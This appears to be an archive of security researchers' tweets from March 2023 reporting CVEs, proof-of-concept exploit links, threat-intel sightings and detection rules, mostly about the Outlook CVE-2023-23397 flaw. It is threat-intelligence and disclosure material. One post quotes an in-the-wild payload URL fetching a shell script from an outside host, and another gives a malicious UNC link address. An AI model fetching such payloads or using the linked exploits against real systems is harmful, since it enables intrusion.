# pdnuclei
**https://twitter.com/pdnuclei/status/1641546334304976899 _at 2023-03-30, 21:01:59_**
<blockquote>
🚨 Nuclei-Templates v9.4.1 🚨

🆕 69 templates, 7 contributors + 27 new CVEs including:

💥 CVE-2023-28343: Command Injection
💣 CVE-2023-28432: Information Disclosure
💣 CVE-2022-1329: RCE Vulnerability

Find out more here:
👉 🔗 https://t.co/QrEohn9K6p https://t.co/OGDt0dr6a6
</blockquote>

* http://github.com/projectdiscovery/nuclei-templates/releases/tag/v9.4.1

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>43</code></td>
<td>Favorites: <code>228</code></td>
</tr></table>

---

# bad_packets
**https://twitter.com/bad_packets/status/1641211634805874688 _at 2023-03-29, 22:52:00_**
<blockquote>
⚠️ CVE-2020-5902 event detected ⚠️

Source IP:
45.128.232.181 (🇳🇱)

Payload:
http:// 192 . 161 . 55 . 115/ljc.sh

Target:
F5 BIG-IP Traffic Management User Interface (TMUI) endpoints vulnerable to remote code execution.
#threatintel
</blockquote>

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>14</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# _mattata
**https://twitter.com/_mattata/status/1641083856466984963 _at 2023-03-29, 14:24:15_**
<blockquote>
Woke up to news of CVE-2022-47986, a remote code execution vulnerability in IBM Aspera Faspex, being used in ransomware.

We @GreyNoiseIO  been tracking it since mid February. https://t.co/SzIUueZSzJ

So I did this instead, happy Wednesday! https://t.co/Frsi5JkHmH
</blockquote>

* https://viz.greynoise.io/tag/ibm-aspera-faspex-rce-attempt?days=30

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>12</code></td>
<td>Favorites: <code>33</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1640966547081662464 _at 2023-03-29, 06:38:07_**
<blockquote>
Analysis about currently disclosed email samples exploiting #Outlook #CVE-2023-23397
- Related attack dates back to March 2022
- Ubiquiti EdgeRouter devices were used
- Victims aren't limited to #Ukraine

Check out the report for more details:https://t.co/yx5nPtOarC https://t.co/FHdxBKwPtp
</blockquote>

* https://ti.qianxin.com/blog/articles/Analysis-of-In-the-wild-Attack-Samples-Exploiting-Outlook-Privilege-Escalation-Vulnerability-(CVE-2023-23397)-EN/

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>41</code></td>
</tr></table>

---

# ryanaraine
**https://twitter.com/ryanaraine/status/1640474157828931585 _at 2023-03-27, 22:01:32_**
<blockquote>
“Microsoft has traced evidence of potential exploitation of this [Outlook no-interaction 0day] vulnerability as early as April 2022."

CVE-2023-23397 hunting guidance - https://t.co/50Md5hF5Az
</blockquote>

* https://www.securityweek.com/microsoft-no-interaction-outlook-zero-day-exploited-since-last-april/

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>18</code></td>
<td>Favorites: <code>38</code></td>
</tr></table>

---

# RedDrip7
**https://twitter.com/RedDrip7/status/1640342052327108609 _at 2023-03-27, 13:16:36_**
<blockquote>
#APT 
The email that exploited #Outlook #CVE-2023-23397 in the wild was submitted to VT as early as on Apr 1st, 2022 and targeted State Migration Service of #Ukraine.

Filename: "2022-03-18 - лист.eml"
UNC Link: \\5[.]199.162.132\SCW

https://t.co/Pnc0bIRfxo https://t.co/ujlxchJNbf
</blockquote>

* https://www.virustotal.com/gui/file/ece085c17ac5e822b78c533366e725bc845e215dcda78c0502ebd7f33ccb06ed/details

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>70</code></td>
<td>Favorites: <code>158</code></td>
</tr></table>

---

# an0n_r0
**https://twitter.com/an0n_r0/status/1640304974755135488 _at 2023-03-27, 10:49:16_**
<blockquote>
Played with Outlook CVE-2023-23397. Made a simple PoC email builder &amp; sender featuring malicious reminder (just a Msg, no need to use a Task or Cal. Ev.). 

Critical 0-click account takeover on internal networks even after MS patch, no need to open the message on the victim side. https://t.co/S2FxA1jVAR
</blockquote>

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>8</code></td>
<td>Replies: <code>15</code></td>
<td>Retweets: <code>361</code></td>
<td>Favorites: <code>1083</code></td>
</tr></table>

---

# ptracesecurity
**https://twitter.com/ptracesecurity/status/1640081309572759552 _at 2023-03-26, 20:00:30_**
<blockquote>
CVE-2022-42845: 20-Year-Old XNU Use After Free Vulnerability in ndrv.c https://t.co/jCSEcumOZ7  #Pentesting #CVE #Vulnerability #CyberSecurity #Infosec https://t.co/m6ZBdCAASi
</blockquote>

* https://adamdoupe.com/blog/2022/12/13/cve-2022-42845-xnu-use-after-free-vulnerability-in-ndrv-dot-c/

<table><tr>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>37</code></td>
</tr></table>

---

# 0xor0ne
**https://twitter.com/0xor0ne/status/1639545168847306753 _at 2023-03-25, 08:30:04_**
<blockquote>
Analysis and poc of CVE-2022-42845 (XNU Use After Free Vulnerability in ndrv.c)
Writeup by @adamdoupe

https://t.co/0Q08z5Xva6

#xnu #apple #infosec #cybersecurity #cve https://t.co/7zsSJtiLPl
</blockquote>

* https://adamdoupe.com/blog/2022/12/13/cve-2022-42845-xnu-use-after-free-vulnerability-in-ndrv-dot-c/

<table><tr>
<td></td>
<td></td>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>33</code></td>
<td>Favorites: <code>98</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1639539815812321280 _at 2023-03-25, 08:08:47_**
<blockquote>
CVE-2023-23752

Joomla! &lt; 4.2.8 - Unauthenticated information disclosure.

https://t.co/gTecXt1lbT

#cve #exploit #cybersecurity #infosec https://t.co/DWOl3q2grb https://t.co/2tP549DpX7
</blockquote>

* https://github.com/Acceis/exploit-CVE-2023-23752
* https://t.me/hackgit/8006

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>194</code></td>
</tr></table>

---

# RealTryHackMe
**https://twitter.com/RealTryHackMe/status/1639257867122343936 _at 2023-03-24, 13:28:26_**
<blockquote>
⚠️ New Recent Threat Room - Experiment with CVE-2023-23397, the new zero-click attack vector affecting almost every Outlook under Windows!

📖 Learn about CVE-2023-23397
✉️Steal password hashes with an email
🩹Explore mitigation/detection strategies

https://t.co/C9WFx3i46x https://t.co/6s0indE9EW
</blockquote>

* https://tryhackme.com/room/outlookntlmleak

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>3</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>62</code></td>
<td>Favorites: <code>269</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1639193349143019520 _at 2023-03-24, 09:12:03_**
<blockquote>
CVE-2023-27532

Proof of Concept code to exploit CVE-2023-27532 and either leak plaintext credentials or perform remote command execution.

https://t.co/vQQD8QtsZn

#cve #exploit #cybersecurity #infosec https://t.co/36xTuOx8Ou https://t.co/ceWgzylqqS
</blockquote>

* https://github.com/sfewer-r7/CVE-2023-27532
* https://t.me/hackgit/7995

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>34</code></td>
<td>Favorites: <code>148</code></td>
</tr></table>

---

# TecR0c
**https://twitter.com/TecR0c/status/1639132348573958144 _at 2023-03-24, 05:09:40_**
<blockquote>
🚨 Just disclosed CVE-2023-28760: a critical RCE vulnerability in TP-Link AX1800 Wi-Fi 6 Routers! Update your firmware ASAP!

🔗 Blog post: https://t.co/XNwYBSQpED
🔗 Exploit code: https://t.co/sAXL8F8BfQ
</blockquote>

* https://tecsecurity.io/blog/tp-link_ax1800
* https://github.com/TecR0c/exploits/blob/main/CVE-2023-28760/CVE-2023-28760.py

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>57</code></td>
<td>Favorites: <code>132</code></td>
</tr></table>

---

# JimSycurity
**https://twitter.com/JimSycurity/status/1639065198119071745 _at 2023-03-24, 00:42:50_**
<blockquote>
Just a reminder that patches for PetitPotam (CVE-2021-36942) remove capabilities to coerce NTLM auth from an unauthenticated position, but they don't stop an attacker with credentials (user or computer account) from NTLM coercion.
</blockquote>

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>13</code></td>
<td>Favorites: <code>45</code></td>
</tr></table>

---

# stephenfewer
**https://twitter.com/stephenfewer/status/1638908767382241287 _at 2023-03-23, 14:21:14_**
<blockquote>
Our @rapid7 AttackerKB analysis of CVE-2023-27532 in Veeam Backup &amp; Replication has been posted, detailing the vulnerability, plaintext credentials leak and remote code execution: https://t.co/2VcfuPs83c
</blockquote>

* https://attackerkb.com/topics/ALUsuJioE5/cve-2023-27532/rapid7-analysis

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>26</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# Horizon3Attack
**https://twitter.com/Horizon3Attack/status/1638879006056411136 _at 2023-03-23, 12:22:58_**
<blockquote>
The recent #Veeam vuln, CVE-2023-27532, enables an unauth attacker to interact with an API to obtain creds as well as RCE as SYSTEM.

Our blog detailing the research and process of adapting the exploit to be cross-platform as well as the POC to dump creds:
https://t.co/yhYhUMNDUq
</blockquote>

* https://www.horizon3.ai/veeam-backup-and-replication-cve-2023-27532-deep-dive/

<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>3</code></td>
<td>Retweets: <code>90</code></td>
<td>Favorites: <code>202</code></td>
</tr></table>

---

# hack_git
**https://twitter.com/hack_git/status/1638446252558802944 _at 2023-03-22, 07:43:22_**
<blockquote>
CVE-2023-23397

Simple and dirty PoC of the CVE-2023-23397 vulnerability impacting the Outlook thick client.

https://t.co/V0gLduNYCr

#CVE  #cybersecurity  #infosec https://t.co/AxhDSc6WwU
</blockquote>

* https://github.com/Trackflaw/CVE-2023-23397

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>4</code></td>
<td>Retweets: <code>203</code></td>
<td>Favorites: <code>534</code></td>
</tr></table>

---

# cyber_advising
**https://twitter.com/cyber_advising/status/1637733902021189632 _at 2023-03-20, 08:32:44_**
<blockquote>
CVE-2022-24716:  Unauthenticated users can leak the contents of files of the local system accessible to the web-server user, including `icingaweb2`.

PoC Icinga Web 2 &lt;2.8.6, &lt;2.9.6, &lt;2.10
https://t.co/R7DxDcQqMc https://t.co/qG02zc9e8t
</blockquote>

* https://github.com/JacobEbben/CVE-2022-24716

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>17</code></td>
<td>Favorites: <code>34</code></td>
</tr></table>

---

# pentest_swissky
**https://twitter.com/pentest_swissky/status/1637454124068503553 _at 2023-03-19, 14:01:00_**
<blockquote>
Unauthenticated RCE in Goanywhere - CVE-2023-0669 - Youssef Muhammad
https://t.co/s6kjJsBssR
</blockquote>

* https://www.vicarius.io/vsociety/blog/unauthenticated-rce-in-goanywhere

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>20</code></td>
<td>Favorites: <code>74</code></td>
</tr></table>

---

# SeguInfo
**https://twitter.com/SeguInfo/status/1637099933676326913 _at 2023-03-18, 14:33:34_**
<blockquote>
Ayer te fuiste del trabajo sin parchear el Zero-Day de Microsoft Outlook que está siendo utilizado por el #ransomware (CVE-2023-23397).
Tiene un score de 9.8/10, PoC y exploit disponible.
Debería ser lo primero que haces el lunes 😉

Info: https://t.co/Ae2yWdXbNR
</blockquote>

* https://blog.segu-info.com.ar/2023/03/microsoft-parchea-zero-day-utilizados.html

<table><tr>
<td>Quotes: <code>4</code></td>
<td>Replies: <code>6</code></td>
<td>Retweets: <code>104</code></td>
<td>Favorites: <code>231</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1636807184745938960 _at 2023-03-17, 19:10:17_**
<blockquote>
This is the capability that Microsoft wanted to retain, at the cost of leaving CVE-2023-23397 exploitable for on-LAN attackers.
Here we have Outlook, configured to read Hotmail.
And somebody sends me an email over the internet.
WHICH SETS A REMINDER THAT PLAYS AN ARBITRARY SOUND https://t.co/nOodAlO8Ft
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>5</code></td>
<td>Retweets: <code>8</code></td>
<td>Favorites: <code>64</code></td>
</tr></table>

---

# domchell
**https://twitter.com/domchell/status/1636742613121236992 _at 2023-03-17, 14:53:42_**
<blockquote>
Following some additional testing of #CVE-2023-23397 - I can confirm MS have only partially fixed this. You can still trigger auth to systems in trusted zones - ie other AD joined systems, which can then be relayed for privilege escalation 🔥https://t.co/6cZWHiNDjJ
</blockquote>

* https://vimeo.com/809084317

<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>7</code></td>
<td>Retweets: <code>115</code></td>
<td>Favorites: <code>336</code></td>
</tr></table>

---

# gleeda
**https://twitter.com/gleeda/status/1636742080830554112 _at 2023-03-17, 14:51:35_**
<blockquote>
A nice sum up of Everything We Know About CVE-2023-23397 by @_JohnHammond from @HuntressLabs https://t.co/iMMq0gUI0v

#DFIR #CVE #outlook #0day #vulnerability #vulnresearch #SIGMA #detectionengineering #threathunting
</blockquote>

* https://www.huntress.com/blog/everything-we-know-about-cve-2023-23397

<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>16</code></td>
<td>Favorites: <code>35</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1636741880674222081 _at 2023-03-17, 14:50:48_**
<blockquote>
Thanks to @domchell, I've confirmed that Microsoft only fixed CVE-2023-23397 for remote sound URIs where the host has a '.' in them.
A SMB host accessible by hostname only can still be used to trigger this bug.
Attackers on your LAN can still use CVE-2023-23397
THIS_IS_FINE.PNG https://t.co/ARpRcS9vzK
</blockquote>

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>6</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>121</code></td>
<td>Favorites: <code>303</code></td>
</tr></table>

---

# wdormann
**https://twitter.com/wdormann/status/1636726345110568960 _at 2023-03-17, 13:49:04_**
<blockquote>
Your reminder that finding Windows LPE vulnerabilities with Crassus is really REALLY easy.
Adobe CVE-2023-26358 was found with it and also verified in probably less than 5 minutes total.
https://t.co/TZ0kUJMceT
I'll be talking about Crassus at #GRIMMCon 0x8 on May 18. https://t.co/USB4IMzyqn
</blockquote>

* https://github.com/vu-ls/Crassus

<table><tr>
<td></td>
</table></tr>
<table><tr>
<td>Quotes: <code>1</code></td>
<td>Replies: <code>1</code></td>
<td>Retweets: <code>21</code></td>
<td>Favorites: <code>109</code></td>
</tr></table>

---

# cyb3rops
**https://twitter.com/cyb3rops/status/1636492182210199555 _at 2023-03-16, 22:18:35_**
<blockquote>
Sigma rule to detect the exploitation of CVE-2023-23397 (Outlook)

New rule (level high; run queries on old data)
https://t.co/Pe70ruaQU9

Old rule (level medium; check past matches with this rule)
https://t.co/4nEaM0sRDg

based on tweet by @ACEResponder 
https://t.co/LFn4AhfFr0 https://t.co/4mJx8gr7hy
</blockquote>

* https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_webdav_client_susp_execution.yml
* https://github.com/SigmaHQ/sigma/blob/master/rules/windows/process_creation/proc_creation_win_rundll32_webdav_client_execution.yml
* https://x.com/aceresponder/status/1636116096506818562

<table><tr>
<td></td>
<td></td>
